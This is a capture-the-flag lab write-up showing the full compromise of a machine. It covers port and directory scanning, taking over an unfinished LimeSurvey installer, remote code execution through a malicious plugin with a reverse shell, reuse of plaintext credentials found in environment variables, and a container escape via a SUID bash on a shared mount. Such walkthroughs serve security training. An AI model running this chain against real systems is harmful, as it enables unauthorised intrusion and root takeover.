










## Enumeration

### NMap Scan

```bash
PORT   STATE SERVICE REASON         VERSION    
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:                                                                                                       
|   256 28:c7:f1:96:f9:53:64:11:f8:70:55:68:0b:e5:3c:22 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMIbLmW6I3vlf8QRrAaFLhH3Ao7CFIvqPPmQG0Z14i0SlPfX9IZobRkjLOB0ncKb5oQ/0SXLnU60rnUe+7Xe6BU=
|   256 02:43:d2:ba:4e:87:de:77:72:ce:5a:fa:86:5c:0d:f4 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICGL/2c6HVh+6F9RbNsZpoYJ2jv4C8SGqtskv0GGuU2P
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.56                                                              
|_http-server-header: Apache/2.4.56 (Debian)
| http-methods:                                                                                                      
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: 403 Forbidden          
Service Info: Host: 172.17.0.2; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Navigating to port 80 returns a 403 Forbidden. Apache version 2.4.56 is disclosed in the server header.



### Directory Enumeration

```bash
└─$ ffuf -u http://10.129.234.81/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -mc 200,301,302,403

survey                  [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 16ms]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 13ms]
:: Progress: [29999/29999] :: Job [1/1] :: 2020 req/sec :: Duration: [0:00:15] :: Errors: 1 ::
```

ffuf discovers a `/survey` directory redirecting with a 301.

## Exploitation

### Setting Up the LimeSurvey Instance

Navigating to `/survey` reveals a LimeSurvey installation requiring a database. We spin up a local SQL Docker instance to satisfy the setup wizard.



The database type is identified during setup:



Pointing the SQL database at our attacker IP `10.10.14.85`:



The service automatically creates and populates the database. At the end of setup we are given administrator credentials:



After logging into the admin panel, the LimeSurvey version is shown in the bottom right:



### LimeSurvey RCE via Malicious Plugin

Searching for exploits reveals [https://github.com/Y1LD1R1M-1337/Limesurvey-RCE](https://github.com/Y1LD1R1M-1337/Limesurvey-RCE), an RCE PoC that abuses the plugin upload functionality.

After modifying the files, we zip them up:



Navigate to the plugin page and install the malicious zip:



The plugin is extracted to:

```
http://forgotten.vl/survey/upload/plugins/Y1LD1R1M/
```

Curling the `php-rev.php` file triggers the reverse shell:



### Credential Discovery via Environment Variables

Checking environment variables on the container reveals hardcoded credentials:

```bash
limesvc@efaa6f5097ed:/$ env
<...SNIP...>
LIMESURVEY_ADMIN=limesvc
LIMESURVEY_PASS=5W5HN4K4GCXf9E
```

These credentials work over SSH to access the host directly:

```bash
ssh limesvc@forgotten.vl  # password: 5W5HN4K4GCXf9E
```

## Privilege Escalation

### Docker Escape via Mount

Checking sudo privileges inside the container:

```bash
$ script -qc /bin/bash /dev/null
limesvc@efaa6f5097ed:/$ sudo -l

User limesvc may run the following commands on efaa6f5097ed:
    (ALL : ALL) ALL

limesvc@efaa6f5097ed:/$ sudo su
root@efaa6f5097ed:/# id
uid=0(root) gid=0(root) groups=0(root)
```

We have full root inside the container. Checking mounts reveals a shared directory with the host:



We confirm the mount by creating a temp file inside the container and locating it on the host:

```bash
# Inside container
root@efaa6f5097ed:/var/www/html/survey# mktemp -p .
./tmp.DRQvdbUhiN
```

```bash
# On host
limesvc@forgotten:~$ find / -name tmp.DRQvdbUhiN -type f 2>/dev/null
/opt/limesurvey/tmp.DRQvdbUhiN
```

We have arbitrary read/write on the host filesystem through the mount. Copy bash into the mount and set the SUID bit:

```bash
root@efaa6f5097ed:/var/www/html/survey# cp /bin/bash .
root@efaa6f5097ed:/var/www/html/survey# chmod +s bash
```

On the host, the SUID bash binary is now present:

```bash
limesvc@forgotten:/opt/limesurvey$ ls -lah bash
-rwsr-sr-x 1 root root 1.2M Mar 16 01:11 bash

limesvc@forgotten:/opt/limesurvey$ ./bash -p
bash-5.1# whoami
root
```
